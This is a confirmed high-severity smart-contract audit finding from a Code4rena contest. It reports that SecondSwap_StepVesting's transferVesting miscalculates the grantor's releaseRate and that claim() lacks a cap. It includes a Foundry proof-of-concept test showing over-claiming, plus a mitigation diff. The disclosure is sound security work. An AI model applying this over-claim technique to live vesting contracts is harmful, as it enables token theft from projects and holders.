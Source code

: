 *Platform: Code4arena*

Status: Confirmed

Severity: High

### Title: Incorrect `releaseRate` updated value in `SecondSwap_StepVesting::transferVesting` function allows users to over-claiming of tokens

## Description: The transferVesting function in the contract allows privileged addresses to transfer a portion of a vesting schedule from one address (grantor) to another (beneficiary). 
The current logic implementation introduces a critical flaw in how the releaseRate for the grantor is recalculated after the transfer.

```solidity
grantorVesting.releaseRate = grantorVesting.totalAmount / numOfSteps;
```

Specifically, the updated releaseRate is calculated based on the updated total vesting amount and the noOfSteps. However, this calculation does not consider the tokens 
and the number of steps already claimed by the grantor before the transfer. As a result, the recalculated releaseRate becomes overestimated, allowing the grantor to 
claim more tokens than they should be entitled to.

Moreover, the claim function lacks a vital safety check to ensure that the claimableAmount do not exceed the available tokens for a vesting schedule.

```solidity
vesting.amountClaimed += claimableAmount;
token.safeTransfer(msg.sender, claimableAmount);
```

This missing check enables users to exploit the incorrect releaseRate and withdraw tokens beyond their rightful allocation. The absence of this validation makes
the contract vulnerable to abuse by malicious actors. This exploit becomes significantly more severe when the malicious actor controls both the grantor and the beneficiary, 
as it allows them to effectively generate 'free tokens'.

## Proof Of Concept:
To run the PoC, follow these steps:

1. Create a new file in the test/ folder and paste the provided code into it.
2. To execute the test, run the following command: `forge test --mt testTransferVestingReleaseRateIssue`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";
import "../contracts/SecondSwap_StepVesting.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockERC20 is ERC20 {
    constructor() ERC20("TestToken", "SSTK") {}

    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }
}

contract SecondSwap_StepVestingTest is Test {
    SecondSwap_StepVesting vesting;
    MockERC20 token;
    address tokenIssuer = address(uint160(uint256(keccak256("tokenIssuer"))));
    address manager = address(uint160(uint256(keccak256("manager"))));
    address vestingDeployer = address(uint160(uint256(keccak256("vestingDeployer"))));

    address user1 = address(uint160(uint256(keccak256("user1"))));
    address user2 = address(uint160(uint256(keccak256("user2"))));

    uint256 startTime;
    uint256 endTime;
    uint256 numOfSteps = 20;

    function setUp() public {

        token = new MockERC20();
        startTime = block.timestamp + 1;
        endTime = startTime + 1000; 

        vesting = new SecondSwap_StepVesting(
            tokenIssuer,
            manager,
            IERC20(address(token)),
            startTime,
            endTime,
            numOfSteps,
            vestingDeployer
        );

        token.mint(tokenIssuer, 1_000_000 ether);
        vm.prank(tokenIssuer);
        token.approve(address(vesting), type(uint256).max);

        // Create vesting for user1
        vm.prank(manager);
        vesting.createVesting(user1, 1000 ether);
    }

    function testTransferVestingReleaseRateIssue() public {
        vm.warp(startTime);

        vm.warp(startTime + 400); // 8 steps passed
        vm.prank(user1);
        vesting.claim();

        uint256 user1Balance = token.balanceOf(user1);
        assertEq(user1Balance, 400 ether, "User1 should have claimed 400 tokens");
        
        
        //transfer 500 to user2 out of remaining 600 tokens
        vm.prank(manager);
        vesting.transferVesting(user1, user2, 500 ether);

        vm.warp(startTime + 950); //19 steps completed
        vm.prank(user1);
        vesting.claim();

        uint256 totalClaimedByUser1 = token.balanceOf(user1);
        emit log_named_uint("Balance of user1:", totalClaimedByUser1);

        uint256 extraToken = totalClaimedByUser1 - 500 ether; //500 tokens transferred to user2
        emit log_named_uint("Extra tokens claimed by user1 :", extraToken);
        
    }
}
```

## Recommended Mitigation Steps:
The releaseRate should be recalculated based on the updated state of the vesting after a transfer. Additionally, a check should be added to the claim function to 
ensure that users cannot claim more tokens than they are entitled to.

```diff
function claim() external {
        (uint256 claimableAmount, uint256 claimableSteps) = claimable(msg.sender);
        require(claimableAmount > 0, "SS_StepVesting: nothing to claim");
+       require(claimableAmount <= available(msg.sender), "SS_StepVesting: Amount claimed cannot be greater than available tokens");
```

